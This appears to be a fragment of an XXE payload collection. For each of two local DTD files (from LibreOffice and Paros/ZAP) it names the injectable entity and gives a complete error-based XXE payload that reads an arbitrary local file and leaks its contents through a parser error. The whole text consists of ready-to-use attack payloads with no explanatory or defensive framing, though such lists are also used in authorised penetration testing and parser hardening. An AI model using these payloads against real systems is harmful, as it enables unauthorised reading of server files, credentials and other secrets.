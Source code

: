 ```
<message></message>
```

 ---

**DTD File:** `/usr/lib/libreoffice/share/dtd/officedocument/1_0/accelerator.dtd`

**Injectable entity:** `boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/lib/libreoffice/share/dtd/officedocument/1_0/accelerator.dtd">

    <!ENTITY % boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:**
 - `/usr/share/paros/xml/alert.dtd`
 - `/usr/share/zaproxy/xml/alert.dtd`

**Injectable entity:** `alertDef`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/zaproxy/xml/alert.dtd">

    <!ENTITY % alertDef '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 
